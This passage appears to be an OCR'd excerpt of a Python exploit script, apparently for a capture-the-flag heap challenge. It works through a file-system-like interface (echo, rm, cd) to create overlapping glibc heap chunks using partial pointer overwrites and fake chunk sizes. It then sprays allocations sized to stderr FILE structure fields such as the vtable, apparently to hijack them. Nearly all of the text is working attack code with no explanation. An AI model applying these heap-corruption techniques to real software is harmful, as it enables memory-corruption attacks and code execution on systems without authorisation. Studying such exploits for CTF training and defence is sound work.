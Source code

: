 ```python  
     #raw_input("check A's LSB")  
     echo("3","3"*(0x20)) # B  
     echo("4","4"*(0x50))  
     cd("../")  
     rm("./test2/1")  
     rm("./test2/4")  
     cd("test2")  
     echo("4",p8(LSB_A1))  
     echo("5","5"*(0x50)) # tmp2  
     echo("6","6"*(0x50)) # tmp1 overlapping on A  
     echo("6",p64(0)+p64(adv3_size1 + 0x10 +0x1) + p64(0)*4 + p64(0) + p64(adv3_size1 + 0x10 + 0x1))  
  
     # prepare fakesize  
     echo("7",(p64(0)+p64(0x31))*((adv3_size1+0x120)//0x10))  
     #raw_input("check overlap")

     print("[+] create overlapped chunks for ADV3 part1")  
     cd("../")

     # prepare for ADV3  part2 in test3 ##########################

     # padding  
     cd("./test6/")  
     echo("1",p64(0x31)*0x10)

     # get overlapped chunk.  
     LSB_A2 = 0xa0              # chunk A's LSB  
     adv3_size2 = stderralloc_s  
     cd("../test3")  
     echo("1","\r"*(0x50))  
     echo("2","2"*(0x20)) # A  
     #raw_input("check A's LSB")  
     echo("3","3"*(0x20)) # B  
     echo("4","4"*(0x50))  
     cd("../")  
     rm("./test3/1")  
     rm("./test3/4")  
     cd("test3")  
     echo("4",p8(LSB_A2))  
     echo("5","5"*(0x50)) # tmp2  
     echo("6","6"*(0x50)) # tmp1 overlapping on A  
     echo("6",p64(0)+p64(adv3_size2 + 0x10 +0x1) + p64(0)*4 + p64(0) + p64(adv3_size2 + 0x10 + 0x1))

     # prepare fakesize  
     echo("7",(p64(0)+p64(0x31))*((adv3_size2+0x120)//0x10))  
     #raw_input("check overlap")

     print("[+] create overlapped chunks for ADV3 part2")  
     cd("../")

     # Allocate chunks for ADV2 #################################

     cd("./test4")  
     print("[ ] dumpedend_s: "+hex(dumpedend_s))  
     echo("1","B"*dumpedend_s)  
     echo("2","B"*pedantic_s)  
     echo("3","B"*stderrmode_s)  
     echo("4","B"*stderrflags_s)  
     echo("5","B"*stderrwriteptr_s)  
     echo("6","B"*stderrbufbase_s)  
     echo("7","B"*stderrvtable_s)  
```